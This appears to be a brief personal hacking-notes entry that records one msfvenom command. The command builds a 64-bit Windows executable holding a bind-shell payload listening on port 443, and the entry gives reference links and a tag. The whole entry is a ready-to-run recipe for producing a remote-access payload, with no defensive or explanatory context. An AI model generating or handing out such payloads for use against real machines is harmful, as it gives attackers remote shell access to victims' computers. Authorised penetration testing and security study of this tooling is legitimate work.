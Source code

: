 # MSFVENOM Windows Binary (.exe) executable 64 Bit (x64) Bind Shell
```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

# References
- [20221003150771](/zet/20221003150771/) MSFVENOM Windows Binary (.exe) executable 64 Bit (x64)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted

